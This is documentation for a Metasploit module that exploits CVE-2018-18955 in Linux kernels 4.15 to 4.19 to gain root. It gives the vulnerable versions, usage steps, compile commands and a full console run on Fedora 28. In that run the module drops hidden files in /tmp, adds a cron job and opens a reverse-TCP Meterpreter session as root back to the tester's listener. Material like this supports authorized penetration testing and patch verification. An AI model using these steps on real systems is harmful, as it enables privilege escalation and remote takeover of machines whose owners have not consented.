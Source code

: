 ## Description

  This module exploits a vulnerability in Linux kernels 4.15.x to 4.18.x
  prior to 4.18.19 and 4.19.x before 4.19.2 where broken uid/gid mappings
  between nested user namespaces and kernel uid/gid mappings allow
  elevation to root (CVE-2018-18955).

  The target system must have unprivileged user namespaces enabled and
  the newuidmap and newgidmap helpers installed (from uidmap package).


## Vulnerable Application

  This module has been tested successfully on:

  * Fedora Workstation 28 kernel 4.16.3-301.fc28.x86_64
  * Linux Mint 19 kernel 4.15.0-20-generic (x86_64)
  * Ubuntu Linux 18.04.1 LTS kernel 4.15.0-20-generic (x86_64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/nested_namespace_idmap_limit_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading pre-compiled binaries.


## Compiled Executables
  
The module makes use of two pre-compiled exploit executables:

  * `subuid_shell`
  * `subshell`

These are used when `gcc` is not available on the target host for live compiling,
or `COMPILE` is set to `False`.

The executables were cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar.
  
```bash
./i486-linux-musl-gcc -o subshell.out -s -pie -static subshell.c 
./i486-linux-musl-gcc -o subuid_shell.out -s -pie -static subuid_shell.c 
```


## Scenarios

### Fedora Workstation 28 (verbose output)

  ```
  msf5 > use exploit/linux/local/nested_namespace_idmap_limit_priv_esc 
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > check

  [+] Unprivileged user namespaces are permitted
  [+] /usr/bin/newuidmap is set-uid
  [+] /usr/bin/newgidmap is set-uid
  [+] Kernel version 4.16.3-301.fc28.x86_64 appears to be vulnerable
  [*] The target appears to be vulnerable.
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Unprivileged user namespaces are permitted
  [+] /usr/bin/newuidmap is set-uid
  [+] /usr/bin/newgidmap is set-uid
  [+] Kernel version 4.16.3-301.fc28.x86_64 appears to be vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system...
  [*] Writing '/tmp/.LOren.c' (6058 bytes) ...
  [*] Writing '/tmp/.C9dWgG.c' (1604 bytes) ...
  [*] Writing '/tmp/.6syapMd72' (367 bytes) ...
  [*] Adding cron job...
  [*] [.] starting
  [*] [.] setting up namespace
  [*] [~] done, namespace sandbox set up
  [*] [.] mapping subordinate ids
  [*] [.] subuid: 100000
  [*] [.] subgid: 100000
  [*] [~] done, mapped subordinate ids
  [*] [.] executing subshell
  [+] Success. Waiting for job to run (may take a minute)...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (816260 bytes) to 172.16.191.137
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.137:39150) at 2018-11-24 19:28:02 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 28 (Linux 4.16.3-301.fc28.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

